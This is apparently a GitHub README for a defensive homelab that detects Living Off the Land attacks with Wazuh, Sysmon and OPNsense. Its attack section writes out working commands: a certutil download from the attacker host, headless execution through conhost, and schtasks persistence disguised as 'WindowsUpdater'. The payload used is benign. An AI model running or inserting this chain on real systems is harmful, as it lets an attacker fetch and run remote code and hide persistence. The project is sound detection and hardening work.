









# Company-Style SOC Homelab — Detecting Living Off the Land Attacks

> A reusable Blue Team homelab designed to approximate the segmented infrastructure and security monitoring capabilities found in a small company.



---

## Project Purpose

Living Off the Land attacks abuse legitimate tools already available on a compromised operating system.

Instead of introducing an obvious malicious executable, an attacker can use trusted Windows binaries to:

- download files;
- execute commands;
- establish persistence;
- bypass basic security controls.

Because these binaries are also used for legitimate administration, detecting malicious usage requires more context than simply identifying the executable name.

This project was created to study that problem from a Blue Team perspective.

The objective was to build a homelab approaching what a small company security environment could look like, including:

- virtualized infrastructure;
- separated network zones;
- centralized security monitoring;
- Windows endpoint telemetry;
- firewall logging;
- custom behavioural detection rules;
- incident investigation;
- containment and endpoint hardening.

The Windows binaries used in the attack scenario were selected through the [LOLBAS project](https://lolbas-project.github.io/), which documents legitimate Microsoft-signed binaries and scripts that can be abused during offensive operations.

The implemented scenario demonstrates how legitimate Windows components can be combined into a simple attack chain and how a SOC can detect the resulting behaviour.

This project does not reproduce a complete production SOC. It provides a compact and reusable environment for learning, testing detection rules and experimenting with defensive controls.

---

## Repository Design

The complete project workflow is documented in this README.

Configuration files and scripts are stored separately so they can be copied, adapted and reused.

```text
SOC-LOTL-Lab/
│
├── README.md
├── assets/
├── configs/
├── scripts/
└── setup/
```

| Directory | Content |
|---|---|
| `assets/` | Architecture diagrams and project screenshots |
| `configs/` | Reusable Proxmox, OPNsense and Wazuh configurations |
| `docs/` | Troubleshooting, lessons learned, roadmap and references |
| `scripts/` | Payload, containment and hardening scripts |
| `setup/` | Detailed setup notes for the main components |

The project can be reproduced as documented or used as a foundation for another environment.

Network ranges, firewall rules, detection logic and defensive controls can be adapted without rebuilding the complete architecture.

---

## What This Lab Demonstrates

1. Build a company-style virtual infrastructure.
2. Separate systems into different security zones.
3. Control communications through a firewall.
4. Centralize endpoint and firewall telemetry.
5. Simulate a Living Off the Land attack.
6. Detect each stage with custom Wazuh rules.
7. Correlate the events into an attack chain.
8. Map the activity to MITRE ATT&CK.
9. Investigate and contain the source.
10. Apply endpoint hardening.
11. Repeat the attack to validate the remediation.

---

## Technologies

| Technology | Role |
|---|---|
| Proxmox VE | Virtualization platform |
| OPNsense | Routing, VLAN segmentation and firewalling |
| Wazuh | SIEM, log collection and detection |
| Sysmon | Detailed Windows endpoint telemetry |
| Windows 11 | Monitored workstation |
| Kali Linux | External attack simulation |
| CrowdSec | Source-IP containment demonstration |
| MITRE ATT&CK | Classification of detected techniques |

---

# Lab Architecture

The environment is hosted on Proxmox VE and divided into separate network zones.

| Zone | Purpose |
|---|---|
| Management | Infrastructure administration |
| SOC | Security monitoring and log analysis |
| Users | Windows endpoint environment |
| WAN | External network and attacker simulation |
| DMZ | Reserved isolated services zone |

Kali Linux runs outside the Proxmox infrastructure in VirtualBox.

This placement represents an external attacker and forces the relevant traffic to pass through the OPNsense perimeter.

OPNsense controls communication between the zones and applies a default-deny security model.

---

# Virtual Infrastructure



The internal environment contains:

| System | Function |
|---|---|
| OPNsense | Firewall, router and network segmentation |
| Wazuh Server | Centralized security monitoring |
| Windows 11 | User workstation and attack target |

Kali Linux runs separately in VirtualBox on the physical workstation.

Detailed deployment information:

- [Proxmox setup](setup/proxmox.md)
- [Proxmox network configuration](configs/proxmox/interfaces.example)

---

# Network Segmentation



The network is segmented to reduce unnecessary communication and approximate the separation commonly found in a company environment.

| Segment | Role |
|---|---|
| Management | Administrative access |
| SOC | Wazuh and defensive services |
| Users | Employee workstation |
| DMZ | Reserved isolated services |
| WAN | ISP network and external attacker |

Segmentation ensures that every system cannot communicate freely with every other system.

For example:

- a user workstation cannot administer the firewall;
- an external system cannot directly reach the SOC network;
- the SOC receives endpoint and firewall logs without exposing unnecessary services;
- management interfaces remain separated from user traffic.

Detailed configuration:

- [OPNsense setup](setup/opnsense.md)
- [OPNsense firewall rules](configs/opnsense/firewall-rules.example.md)

---

# Internet Gateway

The OPNsense WAN interface connects the lab to the ISP router.

```text
ISP router network: 192.168.1.0/24
ISP router gateway: 192.168.1.1
OPNsense WAN: 192.168.1.50
```

All internal networks use OPNsense as their gateway.

```text
Internal system
      ↓
OPNsense VLAN gateway
      ↓
OPNsense WAN
      ↓
ISP router
      ↓
Internet
```

This design separates the internal addressing plan from the ISP network.

When the ISP router or provider changes, only the OPNsense WAN configuration needs to be adapted. The internal VLANs, Wazuh server, Windows workstation and firewall policy can keep the same addressing plan.

---

# Firewall Policy



The firewall follows a default-deny approach.

Traffic is blocked unless a rule explicitly authorizes it.

Required communications include:

| Source | Destination | Purpose |
|---|---|---|
| Windows endpoint | Wazuh server | Agent registration and event forwarding |
| Windows endpoint | Internet | Updates and attack simulation |
| Management network | OPNsense | Firewall administration |
| Management network | Proxmox | Hypervisor administration |
| Wazuh server | Internet | Updates and package installation |

Prohibited communications include:

| Source | Destination | Result |
|---|---|---|
| WAN | SOC network | Blocked |
| Users network | Management network | Blocked |
| Users network | Firewall administration | Blocked |
| Unapproved VLANs | Internal services | Blocked |

The exact rules can be adapted to another addressing plan.

---

# SOC and Log Collection


Wazuh acts as the central security monitoring platform.

It collects and analyzes:

- Windows Event Logs;
- Sysmon process creation events;
- command-line arguments;
- network connections;
- file creation;
- scheduled-task activity;
- firewall events;
- custom LOTL detections.

The objective is not only to collect logs but to transform relevant activity into actionable security alerts.

Detailed configuration:

- [Wazuh setup](setup/wazuh.md)
- [Wazuh agent configuration](configs/wazuh/agent.conf)
- [Custom Wazuh rules](configs/wazuh/local_rules.xml)

---

## Endpoint Enrollment


The Windows workstation is enrolled as a Wazuh agent.

Sysmon provides more detailed endpoint telemetry than the default Windows logs alone.

This allows the SOC to observe:

- process images;
- parent and child processes;
- complete command lines;
- file creation;
- network destinations;
- scheduled-task operations;
- relationships between multiple events.

Detailed endpoint installation:

- [Windows setup](setup/windows.md)

---

# Attack Scenario

The attack scenario uses legitimate Windows binaries instead of a traditional malware executable.

The binaries were selected by researching their documented abuse capabilities through the LOLBAS project.

The scenario is composed of three behaviours:

1. payload retrieval;
2. command execution;
3. persistence creation.

This demonstrates why executable reputation alone is insufficient.

A trusted binary may still perform a malicious action depending on its command line, destination and execution context.

---

## Kali Linux

Kali Linux runs in VirtualBox on the physical workstation and represents an external attacker outside the Proxmox environment.

```text
Platform: VirtualBox
Network mode: Bridged Adapter
IP address: 192.168.1.30
Network: ISP router LAN
```

Kali is used to:

- host the benign test payload;
- simulate the external source;
- validate firewall behaviour;
- generate activity monitored by Wazuh.

---

## Payload Hosting



The payload is stored in:

[`scripts/payload.py`](scripts/payload.py)

The payload is intentionally benign. It only displays the execution time and the hostname of the Windows workstation.

```python
import datetime
import socket

print(f"[+] Simulated compromise at {datetime.datetime.now()}")
print(f"[+] Hostname: {socket.gethostname()}")
```

On Kali, place the payload in the working directory:

```bash
mkdir -p ~/lab
cd ~/lab
cp /path/to/SOC-LOTL-Lab/scripts/payload.py .
```

Start a temporary HTTP server:

```bash
sudo python3 -m http.server 80
```

The payload then becomes available at:

```text
http://192.168.1.30/payload.py
```

---

## Living Off the Land Kill Chain



The attack chain uses:

| Binary | Role |
|---|---|
| `certutil.exe` | Downloads the payload from Kali |
| `conhost.exe` | Executes the downloaded payload |
| `schtasks.exe` | Creates scheduled-task persistence |

### Attack Execution

Execute the following commands from the Windows workstation in an administrator terminal.

#### 1. Payload retrieval

```cmd
certutil -urlcache -f http://192.168.1.30/payload.py %TEMP%\p.py
```

#### 2. Payload execution

```cmd
conhost.exe --headless python %TEMP%\p.py
```

#### 3. Persistence creation

```cmd
schtasks /create /tn "WindowsUpdater" ^
/tr "conhost.exe --headless python %TEMP%\p.py" ^
/sc onlogon /f
```

The generated activity includes:

| Stage | Expected telemetry |
|---|---|
| Download | Process creation, HTTP connection and file creation |
| Execution | Process creation and command-line arguments |
| Persistence | Process creation and scheduled-task activity |

---

### Stage 1 — Payload Retrieval

`certutil.exe` is a legitimate Windows certificate utility.

In this scenario, its download capability is abused to retrieve content from the external Kali server.

The binary itself is trusted. The suspicious elements are its command-line arguments, network destination and execution context.

---

### Stage 2 — Execution

`conhost.exe` is used with the `--headless` argument to execute the downloaded Python payload.

The SOC observes the process and its command line through Sysmon.

---

### Stage 3 — Persistence

`schtasks.exe` creates a scheduled task named `WindowsUpdater`.

Scheduled tasks are commonly used by administrators and software installers. Detection must therefore consider the task name, trigger, command and execution context.

---

# Detection Engineering

The default event collection provides useful telemetry but does not automatically identify the complete scenario as one attack.

Custom Wazuh rules detect each individual stage and correlate the events.


| Rule ID | Detection |
|---|---|
| `100001` | Suspicious `certutil` download |
| `100002` | Headless execution through `conhost` |
| `100003` | Persistence through `schtasks` |
| `100010` | Complete correlated LOTL chain |

The rules analyze fields such as:

- process image;
- command line;
- event identifier;
- endpoint;
- execution sequence;
- previously matched rule groups.

Reusable detection file:

- [Custom Wazuh rules](configs/wazuh/local_rules.xml)

---

## Correlation

Detecting one legitimate binary is not enough to confirm an attack.

For example:

- `certutil.exe` may perform legitimate certificate operations;
- `schtasks.exe` may create legitimate maintenance tasks;
- `conhost.exe` is a standard Windows component.

Detection confidence increases when suspicious download, execution and persistence activity occurs within the same time window.

The correlation rule combines the three alerts into a higher-level LOTL detection.

---

# MITRE ATT&CK Mapping


The custom detections are mapped to MITRE ATT&CK:

| Behaviour | Technique |
|---|---|
| Payload transfer | `T1105` — Ingress Tool Transfer |
| Command execution | `T1059` — Command and Scripting Interpreter |
| Scheduled-task persistence | `T1053.005` — Scheduled Task |

The mapping describes the behaviour performed by the executable rather than only the executable name.

---

# Investigation

Once the alerts are generated, the analyst can reconstruct the attack sequence from the Wazuh dashboard.

The investigation includes:

1. identifying the affected endpoint;
2. reviewing the command lines;
3. examining process relationships;
4. identifying the external source address;
5. checking the downloaded file path;
6. verifying scheduled-task persistence;
7. confirming the chronological relationship between the events.

The lab demonstrates the value of combining several telemetry sources instead of relying on one alert in isolation.

---

# Containment Demonstration



CrowdSec was used to demonstrate source-IP containment.

The ban was not triggered automatically by the Wazuh correlation rule.

The source address was identified during the investigation and manually blocked as a containment action.

The workflow was therefore:

- **detection:** Wazuh;
- **analysis:** identification of the Kali source address;
- **containment:** manual CrowdSec decision;
- **automatic response:** not implemented.

In a company environment, similar containment could be automated through:

- an EDR;
- a SOAR platform;
- a firewall API;
- Wazuh Active Response.

Automatic containment would require safeguards to reduce the risk of blocking legitimate systems after a false positive.

Relevant script:

- [`crowdsec-ban.sh`](scripts/crowdsec-ban.sh)

---

# Endpoint Hardening



After the incident, the Windows endpoint was hardened to prevent the original download method from succeeding again.

This does not mean that every Living Off the Land technique is blocked.

Restricting one binary mitigates one specific path. Another legitimate binary or execution method could still be attempted.

Effective remediation can combine:

- application control;
- least privilege;
- restricted administrative tools;
- process and command-line monitoring;
- network egress filtering;
- updated detection rules;
- repeated validation.

Relevant script:

- [`hardening.ps1`](scripts/hardening.ps1)

---

# Validation After Remediation



The scenario was executed again after the defensive changes.

The second test verifies whether:

- the original payload retrieval method still works;
- the endpoint still generates telemetry;
- Wazuh continues receiving events;
- the detection rules remain functional;
- the remediation changes the result of the attack.

A remediation should not be considered effective only because a policy was created. It must be tested against the original scenario.

---

# Reproducing the Lab

Recommended deployment order:

```text
1. Install Proxmox VE
2. Create the virtual networks
3. Deploy OPNsense
4. Configure the WAN, VLANs and firewall rules
5. Deploy the Wazuh server
6. Deploy the Windows endpoint
7. Install Sysmon
8. Install and enroll the Wazuh agent
9. Configure Kali in VirtualBox bridged mode
10. Import the custom Wazuh rules
11. Host the benign payload
12. Execute the LOTL attack chain
13. Analyze the generated alerts
14. Apply containment and hardening
15. Repeat the test
```

| Component | Documentation | Reusable files |
|---|---|---|
| Proxmox | [Setup guide](setup/proxmox.md) | [Network template](configs/proxmox/interfaces.example) |
| OPNsense | [Setup guide](setup/opnsense.md) | [Firewall rules](configs/opnsense/firewall-rules.example.md) |
| Wazuh | [Setup guide](setup/wazuh.md) | [Agent configuration](configs/wazuh/agent.conf) and [rules](configs/wazuh/local_rules.xml) |
| Windows | [Setup guide](setup/windows.md) | SwiftOnSecurity Sysmon configuration |
| Kali | VirtualBox, bridged mode, IP `192.168.1.30` | [`payload.py`](scripts/payload.py) |

The README contains the complete project workflow.

The setup pages provide the detailed configuration required to reproduce each internal component without interrupting the main project presentation.

---

# Reusable Files

```text
configs/
├── proxmox/
│   └── interfaces.example
│
├── opnsense/
│   └── firewall-rules.example.md
│
└── wazuh/
    ├── agent.conf
    └── local_rules.xml
```

```text
scripts/
├── payload.py
├── crowdsec-ban.sh
└── hardening.ps1
```

Values such as interfaces, IP addresses, VLAN identifiers and network ranges must be adapted when the project is deployed in another environment.

---

# Limitations

This project is a homelab and does not reproduce every capability of a production SOC.

Current limitations include:

- no high-availability architecture;
- no Active Directory environment;
- no production EDR;
- no automated case-management workflow;
- no fully automated containment pipeline;
- a limited number of endpoints;
- one primary LOTL scenario;
- a benign payload;
- simplified persistence and remediation mechanisms.

These limitations are documented to avoid overstating the demonstrated capabilities.

---

# Possible Extensions

The lab can be extended with:

- Active Directory;
- additional Windows endpoints;
- Linux servers;
- Suricata IDS/IPS;
- an EDR;
- Sigma rules;
- MISP threat intelligence;
- vulnerability management;
- SOAR integration;
- Wazuh Active Response;
- additional LOLBAS scenarios;
- PowerShell abuse detection;
- lateral movement simulations;
- centralized incident case management.

---

# Lessons Demonstrated

This project highlights several defensive principles:

- trusted binaries can still perform malicious actions;
- executable reputation alone is insufficient;
- command-line telemetry is critical;
- segmentation limits unnecessary exposure;
- event correlation improves detection confidence;
- automated response must account for false positives;
- remediation must be tested;
- blocking one technique does not eliminate the broader threat;
- reusable configurations make a lab easier to reproduce and improve.

---

# Disclaimer

This project is intended for defensive education and controlled laboratory use.

All attack simulations must be performed only on systems and networks you own or are explicitly authorized to test.
